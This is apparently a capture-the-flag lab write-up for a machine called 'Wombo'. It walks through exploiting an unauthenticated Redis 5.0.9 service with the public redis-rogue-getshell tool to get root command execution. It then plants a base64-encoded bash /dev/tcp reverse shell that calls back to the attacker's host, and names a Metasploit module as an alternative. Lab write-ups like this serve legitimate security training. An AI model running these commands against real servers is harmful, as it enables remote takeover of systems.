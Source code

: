 # Wombo

### Enumeration

```
6379/tcp  open   redis      Redis key-value store 5.0.9
```

```
$ redis-cli -h 192.168.178.69
```

No need password for redis access.

Redis(<=5.0.5) RCE - Works on 5.0.9

[https://github.com/vulhub/redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)

### Access

```
$ git clone https://github.com/vulhub/redis-rogue-getshell.git
$ cd redis-rogue-getshell
$ cd RedisModulesSDK
$ make
$ cd ..

$ python3 redis-master.py -r 192.168.178.69 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "id"

euid=0(root) gid=0(root) groups=0(root)
```

**Reverse shell ->**

```
/bin/bash -i >& /dev/tcp/192.168.49.178/8080 0>&1 - Base64 Encoded

$ python3 redis-master.py -r 192.168.178.69 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuMTc4LzgwODAgMD4mMQ== | base64 -d > /tmp/shell.sh"

$ python3 redis-master.py -r 192.168.178.69 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "bash -p /tmp/shell.sh"
```

**Alternative way:**

Using metasploit :)

```
msf6 exploit(linux/redis/redis_replication_cmd_exec) >
```
